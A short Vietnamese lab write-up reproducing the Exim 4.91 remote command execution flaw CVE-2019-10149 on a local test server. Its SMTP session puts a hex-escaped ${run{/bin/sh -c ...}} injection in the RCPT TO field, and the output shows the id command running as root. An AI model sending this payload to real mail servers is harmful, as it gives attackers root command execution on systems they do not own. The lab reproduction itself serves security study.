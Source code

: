 ```yaml
---
date: 2019-06-14
title: CVE_2019-10149
categories:
  - CVE_2019-10149
description: CVE_2019-10149
author: minhnv
tags: [CVE_2019-10149]
type: Document
---
```


## Môi trường LAB 

`Exim version 4.91`

## Thực hiện 

- Mục tiêu tạo ra file `/tmp/id` chứa thông tin id user 

- Ban đầu kiểm tra xem có tồn tại file /tmp/id

```
[root@testexim ~]# cat /tmp/id 
cat: /tmp/id: No such file or directory
[root@testexim ~]# 
```

- Trên user `minhkma` thực hiện 

```
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}
```

```
[minhkma@testexim ~]$ nc 127.0.0.1 25
220-cpanel.localhost.localdomain ESMTP Exim 4.91 #1 Fri, 14 Jun 2019 16:50:25 +0700 
220-We do not authorize the use of this system to transport unsolicited, 
220 and/or bulk e-mail.
HELO localhost
250 cpanel.localhost.localdomain Hello localhost [127.0.0.1]
MAIL FROM:<>
250 OK
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}@localhost>    
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
Received: 1
Received: 2
Received: 3
Received: 4
Received: 5
Received: 6
Received: 7
Received: 8
Received: 9
Received: 10
Received: 11
Received: 12
Received: 13
Received: 14
Received: 15
Received: 16
Received: 17
Received: 18
Received: 19
Received: 20
Received: 21
Received: 22
Received: 23
Received: 24
Received: 25
Received: 26
Received: 27
Received: 28
Received: 29
Received: 30
Received: 31

.
250 OK id=1hbirS-0000mL-ER
QUIT
221 cpanel.localhost.localdomain closing connection


Ncat: Broken pipe.
```

- Sau đó quay lại kiểm tra 

```
[root@testexim ~]# cat /tmp/id 
uid=0(root) gid=12(mail) groups=12(mail)
uid=0(root) gid=12(mail) groups=12(mail)
```

- Tài liệu tham khảo 

    + https://www.exploit-db.com/exploits/46974
    + https://www.zdnet.com/article/exim-email-servers-are-now-under-attack/
    + https://www.openwall.com/lists/oss-security/2019/06/06/1